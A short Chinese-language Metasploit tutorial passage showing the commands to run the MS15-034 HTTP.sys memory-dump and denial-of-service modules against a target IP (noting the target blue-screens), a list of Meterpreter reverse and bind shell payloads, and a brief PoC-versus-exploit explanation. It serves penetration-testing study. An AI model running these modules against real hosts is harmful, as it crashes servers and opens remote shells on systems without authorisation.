 > Use+模块名称
```
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump   //调用模块
```
```
set RHOST ip  //设置攻击的目标ip
```
```
exploit  //执行漏洞攻击
```

> <h2>PS:如果成功，目标就会蓝屏</h2>
代码如下：
```
use auxiliary/dos/http/ms15_034_ulonglongadd  //设置辅助攻击模块

set rhosts ip  //设置目标机ip

set threads 10  //设置线程数

Exploit  //攻击
```


## 常用代码说明

### Payload

#### Stager中几种常见的payload


```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```


> `PoC `是` Proof of Concept` (概念验证) 通常是内含无害的漏洞代码，比如弹出一个计算器什么的

> `Exp`  是 `Exploit` (漏洞利用) 通常是内含恶意的漏洞代码
可以理解为提权攻击。

> `exp在msf中来讲`，其实本身并没有恶意行为，只是它会调用恶意payloads来进行测试，

> search的功能可以让我们随时在msf的海量脚本中拿到我们想要的。

```
show optinos                 \\显示选项
```
![](img/6.png)
